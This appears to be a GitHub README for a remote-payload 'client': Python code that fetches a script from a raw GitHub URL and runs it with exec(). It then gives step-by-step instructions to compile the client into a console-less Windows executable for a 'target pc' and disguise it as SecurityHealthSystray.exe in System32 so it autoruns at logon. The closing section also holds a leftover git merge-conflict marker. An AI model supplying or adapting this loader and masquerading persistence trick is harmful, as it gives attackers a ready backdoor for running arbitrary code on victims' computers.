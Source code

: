 # Client example
```python
import time
import requests

def has_internet():
    global a
    try:
        a = requests.get("https://raw.githubusercontent.com/slayy2357/payload1/main/temp.py").text
        if "#don't delete" in str(a):
            return True
        else:
            return False
    except:
        return False

while True:
    if has_internet() == True:
        exec(a)
        break
    else:
        time.sleep(5)
        pass
```
## How to make client autorun
### If you are on windows (and target pc is on windows)
Install requests (and all your client.py dependencies):
```bash
pip install requests
```
Install pyinstaller :
```bash
pip install pyinstaller
```
Compile client to executable :
```bash
pyinstaller client.py --onefile --noconsole
```
### If you are on linux (and target pc is on windows)
Install wine, download python 64bit .exe installer then start cmd :
```bash
wine cmd
```
Install python (replace with real name):
```bash
pythoninstaller.exe
```
Install requests (and all your client.py dependencies):
```bash
pip install requests
```
Then install pyinstaller :
```bash
pip install pyinstaller
```
And finally, compile to .exe :
```bash
pyinstaller client.py --onefile --noconsole
```
## Finally :
<<<<<<< HEAD
Now whether you are on Linux or Windows, you have your client in ```dist/*.exe```, it can be injected as ```SecurityHealthSystray.exe``` for autorun on user logon (```C:\Windows\system32\SecurityHealthSystray.exe```)
=======
Now whether you are on Linux or Windows, you have your client in ```dist/*.exe```, it can be injected as ```SecurityHealthSystray.exe``` for autorun on user logon (```C:\Windows\system32\SecurityHealthSystray.exe```)
>>>>>>> 2786ba1856880ccab5ea71e65cc22b8b9d916956
